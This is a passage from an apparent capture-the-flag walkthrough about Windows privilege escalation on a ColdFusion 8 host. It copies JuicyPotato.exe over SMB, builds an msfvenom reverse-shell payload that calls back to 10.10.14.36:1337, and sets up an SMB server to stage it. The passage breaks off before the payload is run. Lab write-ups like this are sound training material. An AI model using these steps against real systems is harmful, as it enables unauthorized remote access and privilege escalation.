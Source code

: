 Copy the file over to the Windows host using:

```
\\10.10.14.36\share\JuicyPotato.exe
```

```
C:\ColdFusion8\runtime\bin>copy \\10.10.14.36\share\JuicyPotato.exe
copy \\10.10.14.36\share\JuicyPotato.exe

        1 file(s) copied.

C:\ColdFusion8\runtime\bin>
C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\ColdFusion8\runtime\bin

16/06/2021  04:34     <DIR>          .
16/06/2021  04:34     <DIR>          ..
18/03/2008  12:11             64.512 java2wsdl.exe
19/01/2008  10:59          2.629.632 jikes.exe
18/03/2008  12:11             64.512 jrun.exe
18/03/2008  12:11             71.680 jrunsvc.exe
18/03/2008  12:11              5.120 jrunsvcmsg.dll
18/03/2008  12:11             64.512 jspc.exe
10/08/2018  12:55            347.648 JuicyPotato.exe
22/03/2017  09:53              1.804 jvm.config
18/03/2008  12:11             64.512 migrate.exe
18/03/2008  12:11             34.816 portscan.dll
18/03/2008  12:11             64.512 sniffer.exe
18/03/2008  12:11             78.848 WindowsLogin.dll
18/03/2008  12:11             64.512 wsconfig.exe
22/03/2017  09:53              1.013 wsconfig_jvm.config
18/03/2008  12:11             64.512 wsdl2java.exe
18/03/2008  12:11             64.512 xmlscript.exe
              16 File(s)      3.686.657 bytes
               2 Dir(s)  33.182.593.024 bytes free
```

We can see that `JuicyPotato.exe` is in the directory now. We also need a reverse shell payload within this directory so let's create reverse shell payload for Windows and setup another SMB server in the directory we made the payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=1337 -f exe > shell.exe
```

```
smbserver.py share .
```

Now I go ahead and copy the `shell.exe` file over to the Windows host.
